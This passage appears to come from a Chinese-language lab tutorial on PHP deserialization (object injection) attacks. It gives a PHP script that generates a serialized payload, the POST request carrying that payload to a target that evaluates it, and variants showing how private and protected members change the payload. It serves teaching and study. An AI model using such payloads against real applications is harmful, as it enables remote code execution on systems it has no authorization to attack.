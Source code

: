 调用的方法不是为了给属性赋值，全都可以省略掉（在简化payload的时候）

需要类属性的值为什么，可以直接为类属性赋值

~~~
<?php
class Woniu {
    var $a;
    function __construct() {
        $this->a = new Vul();
        //$this->a->hello();
    }
}
class Vul {
    public $data = "phpinfo();";
//   function hello() {
//        @eval($this->data);
//    }
}
echo serialize(new Woniu());
?>
~~~

生成的payload为：

~~~
O:5:"Woniu":1:{s:1:"a";O:3:"Vul":1:{s:4:"data";s:10:"phpinfo();";}}
~~~



访问源码，POST传入参数：

~~~
code=O:5:"Woniu":1:{s:1:"a";O:3:"Vul":1:{s:4:"data";s:10:"phpinfo();";}}
~~~

phpinfo（）成功执行，反序列化成功。



修改php的访问修饰符

~~~
// var $a;
private $a;
// public $data;
protected $data;
~~~

使用private，protected来修饰类属性，类从全局变为了私有类和私有继承类。

再次进行反序列化，失败。

重新生成修改后的payload：

~~~
O:5:"Woniu":1:{s:8:"Woniua";O:3:"Vul":1:{s:7:"*data";s:10:"phpinfo();";}}
~~~

再次尝试反序列化，失败。
